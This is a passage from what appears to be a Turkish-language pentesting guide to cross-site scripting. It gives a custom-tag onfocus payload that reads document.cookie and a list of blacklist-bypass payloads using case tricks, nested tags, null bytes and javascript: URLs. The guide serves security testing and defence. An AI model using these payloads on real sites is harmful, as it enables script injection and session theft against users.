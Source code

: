 ### Özel etiketler

Eğer geçerli bir HTML etiketi bulamadıysanız, **özel bir etiket oluşturmayı** deneyebilir ve `onfocus` niteliği ile JS kodu çalıştırabilirsiniz. XSS isteğinde, URL'yi `#` ile bitirmeniz gerekecek, böylece sayfa **o nesneye odaklanacak** ve kodu **çalıştıracaktır**:
```
/?search=<xss+id%3dx+onfocus%3dalert(document.cookie)+tabindex%3d1>#x
```
### Blacklist Bypasses

Eğer bir tür kara liste kullanılıyorsa, bunu bazı basit hilelerle aşmayı deneyebilirsiniz:
```javascript
//Random capitalization
<script> --> <ScrIpT>
<img --> <ImG

//Double tag, in case just the first match is removed
<script><script>
<scr<script>ipt>
<SCRscriptIPT>alert(1)</SCRscriptIPT>

//You can substitude the space to separate attributes for:
/
/*%00/
/%00*/
%2F
%0D
%0C
%0A
%09

//Unexpected parent tags
<svg><x><script>alert('1'&#41</x>

//Unexpected weird attributes
<script x>
<script a="1234">
<script ~~~>
<script/random>alert(1)</script>
<script      ///Note the newline
>alert(1)</script>
<scr\x00ipt>alert(1)</scr\x00ipt>

//Not closing tag, ending with " <" or " //"
<iframe SRC="javascript:alert('XSS');" <
<iframe SRC="javascript:alert('XSS');" //

//Extra open
<<script>alert("XSS");//<</script>

//Just weird an unexpected, use your imagination
<</script/script><script>
<input type=image src onerror="prompt(1)">

//Using `` instead of parenthesis
onerror=alert`1`

//Use more than one
<<TexTArEa/*%00//%00*/a="not"/*%00///AutOFocUs////onFoCUS=alert`1` //
```
### Length bypass (small XSSs)
